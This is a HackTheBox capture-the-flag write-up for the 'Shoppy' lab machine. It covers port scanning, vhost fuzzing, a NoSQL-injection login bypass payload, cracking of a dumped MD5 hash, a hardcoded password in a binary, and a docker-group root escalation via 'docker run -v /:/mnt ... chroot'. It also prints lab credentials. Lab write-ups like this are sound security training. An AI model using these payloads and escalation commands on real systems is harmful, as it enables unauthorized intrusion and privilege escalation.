 ```yaml
---
description: Shoppy box from HackTheBox write up.
password: 5a966246390f53871100e2246818752d
---
```


# Shoppy

## Nmap

Like always let's start with Nmap!

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ sudo nmap --min-rate 1000 -p- 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 13:20 CET
Nmap scan report for 10.10.11.180
Host is up (0.084s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 60.54 seconds
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ sudo nmap -sC -sV -p 22,80,9093 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 13:23 CET
Nmap scan report for 10.10.11.180
Host is up (0.062s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Wed, 30 Nov 2022 12:22:26 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 546
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 546
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.4953e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.7211e-05
|_    go_gc

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.74 seconds
```

I will focus in both the port 80 and that weird thing in port 9093.

## Port 80

### First exploit

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ gobuster dir -u http://shoppy.htb/ -w ~/Wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/30 13:32:39 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/LogIn                (Status: 200) [Size: 1074]
===============================================================
2022/11/30 13:45:08 Finished
===============================================================
```

The login page is weird, injecting a `'` character the page just hangs. Trying SQL payloads I just got timeouts, maybe we can inject something else? I crafted something like this:

```
Hola' + '123' + 'Hola
```

And the page was able to return... The port 9093 looks like a dump of something related to Go so lets try to inject Go code instead of SQL:

```
Hola' || 1==1 || 'Hola
```

Using that payload I was able to bypass the login page and get access to the admin dashboard! In there, there is an option to search for users. I tried to, once again, inject the same payload I used before in the login page hoping to get all the users of the database and looks like we are lucky here:

```json
[
	{
		"_id":"62db0e93d6d6a999a66ee67a",
		"username":"admin",
		"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	},
	{
		"_id":"62db0e93d6d6a999a66ee67b",
		"username":"josh",
		"password":"6ebcea65320589ca4f2f1ce039975995"
	}
]
```

I was able to crack the password for the `josh` user using the Rockyou dictionary:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Shoppy]
└─$ john --format=raw-md5 --wordlist=~/Wordlists/rockyou.txt hash                                             
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)     
1g 0:00:00:01 DONE (2022-11-30 14:50) 0.6172g/s 8853Kp/s 8853Kc/s 9355KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

I tried the credentials `josh:remembermethisway` for SSH but no luck. 

### Finally user!


After some hours I was really lost whith this box but I found something using `wfuzz` instead of `gobuster` for enumerating virtual hosts:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Shoppy]
└─$ wfuzz -H "Host: FUZZ.shoppy.htb" --hc 404,403,301 -H "User-Agent: PENTEST" -c -w /home/kali/Wordlists/SecLists/Discovery/DNS/namelist.txt http://shoppy.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 151265

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================
                          
000082865:   200        0 L      141 W      3122 Ch     "mattermost"                                        
```

For some reason, `gobuster` was not able to find the Mattermost subdomain... Anyway, I was able to login using the found credentials and got the user and password for the SSH service in one of the chats: `jaeger:Sh0ppyBest@pp!`. Fun fact, the application is using a Mongo database and that is why the SQL payloads failed. Why I though about Go code instead of trying NoSQL? Well let's say that the port 9093 baited me...

## Privesc to `deploy`

Another thing I found in the Mattermost app was a chat speaking about a password manager. I was able to find it under `/home/deploy`, looks like the code and a file with credentials are also in there but Im only allowed to read the binary so I downloaded it to my machine.

According to `sudo -l` we can execute this binary as `deploy`:
```bash
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

The binary asks for a master password when executed. According to the strings in the binary, it will read the credentials file from `/home/deploy` after introducing the correct password. The password is probably stored somewhere in the binary so time to reverse it. Using IDA was easy to find the password harcoded in the code, it was `Sample`.

<p align="center"><img alt="Screenshot of the IDA64 output" src="/assets/images/HackTheBox/Shoppy/idaOutput.PNG"></p>

Using this information, we can just get the password for the `deploy` user:


```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

## Pwned!

The privilege escalation for `root` is pretty easy, the user `deploy` is part of the `docker` group so we can manage containers. Since the Alpine image is already in the machine the attack vector is straigh forward.

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   4 months ago   5.53MB
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

We only need to create a container that will have all the host filesystem mounted in the `/mnt` directory and will execute the `chroot` command to change the container filesystem root to the `/mnt` directory. Since we are root inside de container, we are now effectively root in the host machine.

```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```
